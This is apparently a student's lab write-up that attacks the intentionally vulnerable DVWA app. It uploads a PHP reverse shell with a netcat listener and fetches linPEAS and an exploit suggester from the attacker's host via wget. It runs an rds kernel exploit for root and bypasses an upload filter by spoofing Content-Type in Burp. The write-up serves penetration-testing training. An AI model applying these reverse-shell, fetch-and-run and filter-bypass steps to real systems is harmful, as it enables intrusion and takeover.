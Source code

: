 # Post Exploitation and Privilege Escalation

### Reverse Shell in DVWA (low security)

* Find a reverse shell to use

Since the DVWA is written in PHP, we will have to use a PHP based reverse shell. The first result after a Google search [is the pentestingmonkey revrse shell])(https://github.com/pentestmonkey/php-reverse-shell).

We will need to clone the repo:
![Screenshot 2022-03-10 164630](https://user-images.githubusercontent.com/19424915/157690757-aef2721f-d59c-472a-a9e0-e4defd4cd045.png)

* Adjust the Reverse Shell to match our demands

We will first need to find out the attack machine (Kali) IP address:
![Screenshot 2022-03-10 165807](https://user-images.githubusercontent.com/19424915/157691425-980327f4-cce9-4bd3-b674-0f64511ece2f.png)

Then, we can edit the revese shell code with our IP address and the port we will be listening to:
![Screenshot 2022-03-10 171526](https://user-images.githubusercontent.com/19424915/157692165-ca94d8d0-1a7c-4b69-8af7-3c3e25ed6d3b.png)

* Acheive Reverse Shell

We need to start a netcat instace on our attack machine which is going to listent to the port we have already specified in the Reverse Shell code - in our case "12345".
![Screenshot 2022-03-10 172410](https://user-images.githubusercontent.com/19424915/157695024-a57e8bdf-d0b3-484f-8da1-2f4cf17ffc84.png)

Once we have a listener up and ready we can upload and start the Reverse Shell.
![Screenshot 2022-03-10 172219](https://user-images.githubusercontent.com/19424915/157695200-99dd92b1-26fc-4fe6-8bb5-3cbc7a66a602.png)
![Screenshot 2022-03-10 172443](https://user-images.githubusercontent.com/19424915/157695224-d5e75372-c7a0-4c0a-8eaa-8927eb50b030.png)

As a result, we acheive remote access to the atacked machine (DVWA) terminal.
![Screenshot 2022-03-10 172505](https://user-images.githubusercontent.com/19424915/157695658-6ac33e32-d544-488f-a1d2-327bb03c730c.png)

### Find out DVWA vulnerabilities

* Get linPEAS

We will need a tool which will be responsible for giving us a vulnarability report for DVWA. We can user linPEAS to tackle this chellenge.
![Screenshot 2022-03-10 174233](https://user-images.githubusercontent.com/19424915/157699350-26f92e17-573d-415b-8e8c-ffe975460e9c.png)
![Screenshot 2022-03-10 174458](https://user-images.githubusercontent.com/19424915/157699369-7c765eb6-ff8f-43f8-a7ca-4941616a01cf.png)

* Upload linPEAS on DVWA

Now, we will have to somehow upload the linpeas script on our attacked machine. We can acheive this by serving the directory with the desired script file and than we can download it from the DVWA reverse shell.

For serving the linPEAS directory we can use a simple python http server.
![Screenshot 2022-03-10 220737](https://user-images.githubusercontent.com/19424915/157745874-676200e1-8acd-4b30-ace2-6ac6cd45c9d0.png)

Using the reverse shell we can download the `linpeas.sh` file from our http server. In our case, since the server listens on port `3000`, we will have to run `wget 10.0.2.15:3000/linpeas.sh`. If we try to simply run the command, we will receive a `permission denied` error, which obviously means that our user (`nobody`) cannot write in the current directory. So, we will need to find a directory where we can have write privileges. The most common linux directory with such description is the `/tmp` directory. It is used for files that are temporarily required by the system (Linux based). Which mean that most probably this directory will allow us to write in it. We can verify that by running `ls -la` which will list us the directories and their permissions.

![Screenshot 2022-03-11 002352](https://user-images.githubusercontent.com/19424915/157764788-cee07e81-3e0d-49bb-8d60-3e0126a60a58.png)

Since we have found a place to write, we can step further and download the script in the `/tmp` dir.

![Screenshot 2022-03-10 183107](https://user-images.githubusercontent.com/19424915/157765177-69091530-cb95-40c3-bc9f-70bd5e29a81a.png)

We have the script we need, we can go and just run it with `./linpeas.sh`. However, we again hit a `permission denied` error. Running `ls -la` we can observe that the only privileges we have are `w` (write) and `r` (read), but we have no `x` (execute). So, we must add it - `chmod +x linpeas.sh`.

![Screenshot 2022-03-10 215055](https://user-images.githubusercontent.com/19424915/157766026-9cf5cda3-2fdc-4822-9dd3-84b04d5671aa.png)
 
 Finally, we can run the script and analyze the result. The report is еxhaustive and contains almost everything we need to know about the attacked machine.
 
 ![Screenshot 2022-03-10 215400](https://user-images.githubusercontent.com/19424915/157766375-a3d6b611-7e51-4b95-b330-b191ca8ecac8.png)

### Most probable exploits

In order to find out the most probable exploits, we can use a great tool called [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester). 

We can use the same approach as we used for the linPEAS script. We will need to:

1. Clone the repo from github;

![Screenshot 2022-03-11 160025](https://user-images.githubusercontent.com/19424915/157884600-c7d9bff5-c0d0-4a5b-900b-582760b2bf5b.png)
![Screenshot 2022-03-11 160141](https://user-images.githubusercontent.com/19424915/157884636-b0050c83-8129-48b7-913f-295538a3514e.png)

2. Serve the directory with the file we need;

![Screenshot 2022-03-11 160510](https://user-images.githubusercontent.com/19424915/157884821-14da417f-e26a-402b-9372-3eb7cbd82d70.png)

3. Download the script in the `/tmp` dir of the DVWA and make sure that we have the correct privileges to execute the file;

![Screenshot 2022-03-11 160728](https://user-images.githubusercontent.com/19424915/157885169-4ccb5522-542c-4192-9f6e-1bf5814bc457.png)

Finally, we can run the `linux-exploit-suggester.sh` script and analyze the results.

![Screenshot 2022-03-11 160912](https://user-images.githubusercontent.com/19424915/157885590-ef4f5d04-bd5b-4708-a72e-ce0e26997a9a.png)

As we can observe there are three `highly probable` exploits: `dirtycow 2`, `rds` and `can_bcm`.

### Escalate Privilege

Now, we can try to exploit and escalate our privilige on the attcked machine. We will try it by using `rds` exploit.

There are number of github repos containing different kernel exploits. We will be using [kernel-exploits](https://github.com/lucyoa/kernel-exploits). There is a `rds` executable file which could be direcly downloaded.

![Screenshot 2022-03-11 234036](https://user-images.githubusercontent.com/19424915/157975721-cfcb7ec1-7e2e-4d96-981d-052e610fcbd4.png)

We will have to simply transfer the file on the attcked machine and run it.

![Screenshot 2022-03-11 235647](https://user-images.githubusercontent.com/19424915/157975959-d3ef0b97-7950-49be-b4aa-66912e618e6c.png)

![Screenshot 2022-03-11 164128](https://user-images.githubusercontent.com/19424915/157975980-e8e1c30e-50b1-4318-a804-88ba60086da1.png)

![Screenshot 2022-03-11 164252](https://user-images.githubusercontent.com/19424915/157975994-72563ef5-c813-4dc3-b104-3ab797510939.png)

Great news! We have gained `root` user access to the attacked machine.

### Reverse Shell in DVWA (medium security)

We will use the same approach as we used for the low security case. We will need to somehow upload a reverse shell script in order to gain a remote access to the attacked machine. However, since the security level is higher, we will need to find a more innovative way to do that.

I have tried a couple of approaches to bypass the validation. First, tried to upload a normal `.jpg` file to verify the correct file type.

![Screenshot 2022-03-12 004004](https://user-images.githubusercontent.com/19424915/158017947-958faff9-00cc-481b-9754-2dd87bbc9bca.png)

Then I tried to: 
1. Upload a file with a couple of extensions - `php-reverse-shell.img.txt.php`; 
2. Upload a file with some capital letters in the extension - `php-reverse-shell.PHp`
3. Upload a file with `;` and `\` separators - `image.jpg;php-reverse-shell.php`, `image.jpg\php-reverse-shell.php`.

None of the above approaches was successful.

Finally, I tried to override the `Content-Type` of the `POST` http request which is resposible for uploading the file. To acheive that I did use `Burp`.

First, I had to intersept the `POST` request which uplaods the `php-reverse-shell.php` file.

![Screenshot 2022-03-12 023514](https://user-images.githubusercontent.com/19424915/158019691-e0ac683c-c657-408b-845f-fdbaef2ba8c5.png)

As we can observe, the content type of the request body is `application/x-php`. I had to override it with `image/jpeg`. To acheive that, sent the intersepted request to the `repeater` and just edited the `Content-Type` field.

![Screenshot 2022-03-12 023607](https://user-images.githubusercontent.com/19424915/158019809-d6d25cc9-7c89-4d01-acde-7aa2e413a9c9.png)

Sending the the editted request leads to a successful upload of the file to the server. Which means that the server validates only the `Content-Type` of the http request.

![Screenshot 2022-03-12 023637](https://user-images.githubusercontent.com/19424915/158019928-82c02d9b-6d4f-4caa-98d0-9ae6ff541307.png)

Now, we can navigate to the file and gain a remote access to the DVWA. Of course, we need to have a `netcat` listener running. 

![Screenshot 2022-03-12 023728](https://user-images.githubusercontent.com/19424915/158020050-baff31f0-db8d-438a-b62d-5a6f4e3dce69.png)

